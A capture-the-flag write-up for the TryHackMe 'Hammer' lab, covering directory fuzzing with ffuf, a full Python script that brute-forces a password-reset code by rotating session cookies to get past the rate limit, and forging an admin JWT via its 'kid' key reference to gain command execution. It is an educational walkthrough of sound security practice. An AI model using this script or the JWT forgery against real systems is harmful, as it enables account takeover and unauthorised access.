# Hammer - TryHackMe Writeup

*(This writeup was made at the same time as solving this room to rewind retrospectively at the end on the thought process)*

Let's start the enumeration phase with an nmap scan on our IP:



We got two possible open ports here: SSH on port 22 and HTTP on port 1337.

Let's start by checking the web application on port 1337:



We have a normal looking login page that expects an email, password, and a "forgot password" link. Continuing with our enumeration phase, we can see a comment in the source code that says: `"<!-- Dev Note: Directory naming convention must be hmr_DIRECTORY_NAME -->"`



Moving on to directory enumeration, we can tell that if the naming convention is respected, our traditional wordlists won't be that useful to find custom directories, so we will have to adapt them or just adapt the command line with ffuf like this:

    ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.128.149.50:1337/hmr_FUZZ -s

We get two interesting leads with this:

The first one is an image:

And the second one is some logged errors.

We'll start by doing some steganography with the image we just got, using `strings`, `exiftool`, and `binwalk`. Unfortunately, we got nothing special to work with; the image might just be a normal image that we will see after logging in... Keep in mind that at this stage this lead isn't completely done with, if nothing is found with our next option, then advanced steg will be considered.

Moving to our second lead, which was the logged errors:

One piece of information that I get from that file is that there were two failed login attempts with the email: `t*****@hammer.thm`

The first one failed because of a password mismatch, and the second because it was an invalid email for an admin authentication, which makes me believe that this email might be a correct one. We can confirm this by trying to log in with a random password using this email and a made-up one (the error isn't the same), so we'll try to use it with the "forgot your password" link.



Now we can see that a 4-digit code has been sent to the email address and we have 3 minutes (180 seconds) to submit the code.

Bruteforcing it should come instantly to mind, though there might be rate limiting as suggested by the logs. So we could write a small python script to do it for us or just use Burp Suite, which I'll do in this case because it's easier... (or so I thought).

Using Burp Suite's Intruder after catching a request with an attempt using a random number (`0000` in my case):

After correctly setting the Intruder with incremental numbers from `0000` to `9999` and a minimum of 4 integer digits to avoid false negatives (because let's imagine if the number is `0123`, testing `123` alone won't work), we start the attack.

Unfortunately, with this configuration I got rate-limited, and that was part of the information we gathered before from the logged errors:



After a long time, I noticed a response header named `Rate-Limit-Pending` with a value of `9` (+1 for the previous request), which does match the number of valid requests made by the Intruder before getting a rate-limit block.

Bruteforcing like this wasn't possible because we were limited by those requests. So after quite a good time of testing a few things like race conditions, I tried to modify the `PHPSESSID` cookie to understand the application's behavior. To my surprise, the rate limit header was getting reset each time I changed the `PHPSESSID`!

So I understood the vulnerability: the rate limit depends on our PHP session cookie, but the 4-digit secret code is tied to the email address in the database. This means changing the cookie resets our attempts without invalidating the code sent before.

### Why Burp Suite wasn't the right choice here

At first, I tried to configure a whole Session Handling Rule and Macro in Burp Suite to automatically request a new cookie before hitting the rate limit *(you can see my macro setup testing below where it successfully resets the session and returns a 302 Found)*:



While it is technically possible, doing this in Burp Suite turned out to be a bad idea:
* **It's way too slow:** Burp Community Edition throttles Intruder requests. Testing 10,000 combinations would take forever, especially when we only have a 180-second timer on the server side.

So I quickly ditched Burp Suite and wrote with an AI a quick custom Python script to do the exact logic I tested:

### The Exploit Logic (Python Script)

The idea of the script is simple and fast:
* Send a `POST` request with the email `t*********` to get a fresh `PHPSESSID` cookie and start the timer.
* Test 7 codes in a row using that session (to safely stay below the 10-attempt limit).
* After 7 attempts, request a brand new cookie and keep going.
* Detect the winning code by checking if the response size (`Content-Length`) changes or if the server replies with an HTTP `302 Found` redirection instead of the standard HTML error page.

    import sys
    import requests

    TARGET_URL = "http://10.128.150.64:1337/reset_password.php"
    EMAIL = "t************"
    MAX_ATTEMPTS_PER_SESSION = 7

    def get_fresh_session():
        s = requests.Session()
        s.post(TARGET_URL, data={"email": EMAIL})
        return s

    def exploit():
        print(
            f"[+] Starting attack on {TARGET_URL} for {EMAIL}..."
        )
        session = get_fresh_session()
        attempt_count = 0

        # 1. Calibrate error page length
        calib_res = session.post(
            TARGET_URL, data={"recovery_code": "9999", "s": "180"}
        )
        error_length = len(calib_res.text)

        # 2. Bruteforce loop
        for code in range(10000):
            recovery_code = f"{code:04d}"

            if attempt_count >= MAX_ATTEMPTS_PER_SESSION:
                session = get_fresh_session()
                attempt_count = 0

            payload = {"recovery_code": recovery_code, "s": "180"}

            try:
                response = session.post(
                    TARGET_URL, data=payload, allow_redirects=False
                )
                attempt_count += 1

                if code % 100 == 0:
                    print(
                        f"[*] Testing code {recovery_code}...",
                        end="\r",
                    )

                # Check if redirected (302) OR if response length differs significantly from error page
                if (
                    response.status_code == 302
                    and "error=" not in response.headers.get("Location", "")
                ) or (
                    response.status_code == 200
                    and abs(len(response.text) - error_length) > 50
                ):
                    print(
                        f"\n\n[!!!] SUCCESS ! Valid code is: {recovery_code} [!!!]"
                    )
                    print(f"[+] Valid session cookie: {session.cookies.get_dict()}")
                    sys.exit(0)

            except Exception as e:
                print(f"\n[-] Network error: {e}")
                sys.exit(1)
    if __name__ == "__main__":
        exploit()

Running the script found the valid 4-digit code in just a few seconds!

### One last trap before logging in

When I first tried to type the winning code directly into my browser, it didn't work and said "Time elapsed" or "Invalid code".

That's because the valid code is tied to the specific `PHPSESSID` cookie generated by our Python script! Since the browser uses its own different session cookie, the server rejects it.

To successfully log in, we just need to replace the browser's `PHPSESSID` cookie value with the winning cookie printed by our script and refresh.

And we are finally logged into the dashboard and get the user flag after setting a new password!





---

## Getting the Admin Flag

On the dashboard, we have an input field to execute command lines, but the site seems to log us out after a few seconds (~15s) and some commands or options are restricted.

So the first thing we want to do is to stop being logged out. For that, we can just inspect our cookies and change the expiration date of the cookie named `persistentSession` to something far in the future.

Most of the commands I tested were not allowed, probably due to `execute_command.php` doing some filtering or using an allowlist. Fortunately, `ls` is working and we can list the content of the current directory:





We also notice on the page that our role is currently `"user"`. Looking at my browser requests and cookies, I previously saw that we are authenticated using a JWT token:



Notice from our `ls` output earlier that there is a key file named `******.key` in the web directory! Since we know its location on the server (`/var/****.key`), maybe this exact key is used to sign the JWT token.

We can try crafting a new JWT token with a higher role (`admin`) and point the `kid` (Key ID) header to that key file to see if it unlocks more commands for us. Using jwt.io, we configure the Header and Payload like this:



After replacing our JWT cookie with this newly forged admin token, we test sending a command that was previously restricted, like `ls -la`... and we get a valid command execution!



Now we just need to read the root flag located at `/home/ubuntu/flag.txt` as instructed by the challenge description.



